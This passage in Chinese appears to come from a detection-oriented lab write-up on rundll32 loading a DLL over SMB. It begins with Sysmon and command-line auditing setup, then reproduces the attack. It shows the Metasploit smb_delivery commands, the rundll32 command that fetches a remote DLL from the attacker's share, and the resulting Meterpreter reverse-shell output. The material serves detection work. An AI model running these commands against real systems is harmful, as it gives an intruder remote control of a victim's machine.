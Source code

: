 **日志配置**：
- 启用命令行审计：`本地计算机策略 > 计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。
- 部署Sysmon，配置捕获进程创建、网络连接和镜像加载事件。

## 测试复现

### 测试环境

- **攻击机**：Kali Linux 2019，IP：192.168.126.146
- **靶机**：Windows 7，IP：192.168.126.149，Sysmon已部署
- **工具**：Metasploit（`exploit/windows/smb/smb_delivery`）

### 测试过程

#### 1. 配置Metasploit（攻击机）

**命令**：
```bash
msfconsole
use exploit/windows/smb/smb_delivery
set SRVHOST 192.168.126.146
set LHOST 192.168.126.146
set LPORT 4444
exploit
```

**输出**：
```
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Started service listener on 192.168.126.146:445
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

**说明**：
- 配置SMB服务器托管恶意DLL（`test.dll`），监听反向TCP连接（端口4444）。

#### 2. 靶机执行Payload

**命令**：
```cmd
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

**结果**：
- `rundll32.exe`通过SMB协议加载`test.dll`，执行Payload。
- 攻击机接收Meterpreter会话：
  ```
  [*] Sending stage (180291 bytes) to 192.168.126.149
  [*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49381) at 2023-10-01 10:00:00 +0800
  meterpreter > getuid
  Server username: 12306Br0-PC\12306Br0
  ```
